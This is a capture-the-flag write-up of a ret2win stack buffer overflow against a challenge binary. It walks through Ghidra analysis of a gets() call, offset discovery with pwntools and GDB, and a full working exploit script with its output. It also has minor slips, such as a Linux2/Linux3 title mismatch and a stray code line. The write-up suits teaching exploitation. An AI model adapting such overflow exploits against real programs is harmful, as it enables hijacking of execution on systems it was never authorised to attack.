 # Linux2 CTF Writeup

## Challenge Overview
The Linux3 binary presented a vulnerable program where the guard asks for a secret password. The challenge was to exploit the program and gain control of execution flow to access the vault() function, which prints the flag.

## Analysis
Using Ghidra, the binary was decompiled and the main logic was found inside the gate() function. The key vulnerability was the use of the unsafe gets() function, allowing the user to overflow the buffer and control the return address.

The program logic was as follows:
- The guard asks: "What's the secret password?"
- User input is stored using gets() into a fixed-size buffer.
- If the buffer is overflowed, it is possible to overwrite the return address and redirect execution.

### Key Code Analysis
```c
local_18 = local_20 / local_28;

void gate(void) {
    char local_28[32];
    
    puts("Guard: What's the secret password?");
    gets(local_28);
    puts("Guard: You shall not pass!");
    return;
}
```
- local_28[32] allocates 32 bytes on the stack.
- gets() does not perform bounds checking.
- Overwriting the return address (RIP) is possible after 40 bytes (32 bytes buffer + 8 bytes saved RBP).
- If RIP is overwritten with the address of vault(), the function is called after gate() returns.

## Exploitation and Payload Strategy
1. Used cyclic(100) from pwntools to crash the program and find the offset where RIP is overwritten.
2. Loaded the core dump with GDB and confirmed the fault address matched the cyclic pattern.
3. Used cyclic_find() to determine the exact offset: 40 bytes.
4. Found the address of the vault() function using nm:
`0000000000400607 T vault`
5. Constructed the payload:
`payload = b"A" * 40 + p64(0x400607)`

## Result and Solution
```bash
┌──(kali㉿kali)-[~/Documents/challange_solves]
└─$ /usr/bin/python /home/kali/Documents/challange_solves/3linuxsolve.py
[+] Starting local process './linux3': pid 42597
[*] Switching to interactive mode
Guard: What's the secret password?
Guard: You shall not pass!
HOORAYYYY YOU HAVE THE FLAG
```
By sending the payload with the vault() address in place of the return address, the program returned to vault() instead of exiting normally, printing the flag.

## Conclusion and Lessons
This was a classic buffer overflow challenge that reinforced key concepts:
- The dangers of gets() and unchecked input.
- Using tools like Ghidra, pwntools, and GDB to analyze and exploit a binary.
- How control over RIP can be used to redirect execution to hidden functions like vault().

## References
![alt text](/img/image-4.png)

### PWN-TOOLS SCRIPT

```py
# find_offset.py
from pwn import *

# payload = cyclic(100, n=8)  # n=8 for 64-bit systems

#############################
######### with gdb ##########
#############################
# io = process('./linux3')
# io.sendline(payload)
# io.wait()  # wait for crash

# address of the instruction pointer found at 0x40069e

#############################
###### with pwn-tools #######
#############################

# io = process('./linux3')
# io.sendline(cyclic(100, n=8))
# io.wait()

# core = io.corefile


#############################
###### finding offset #######
#############################

# offset = cyclic_find(core.fault_addr, n=8)

# print(f"[+] Offset to RIP: {offset}")

#############################
###### Buffer-Overflow ###### WITH BBBBBBBB TO TEST OFFSET
#############################

# offset = 40

# payload = b"A" * offset
# payload += b"B" * 8  # RIP offset

# io = process('./linux3')
# io.sendline(payload)
# io.wait()

# core = io.corefile
# stack = core.rsp

#############################
###### Buffer-Overflow ###### WITH VAULT ADDRESS
#############################

offset = 40

# in linux vm: nm -C ./linux3 | grep vault
vault_address = 0x400607

payload = b"A" * offset
payload += p64(vault_address)

io = process('./linux3')
io.sendline(payload)
io.interactive()
io.close()
```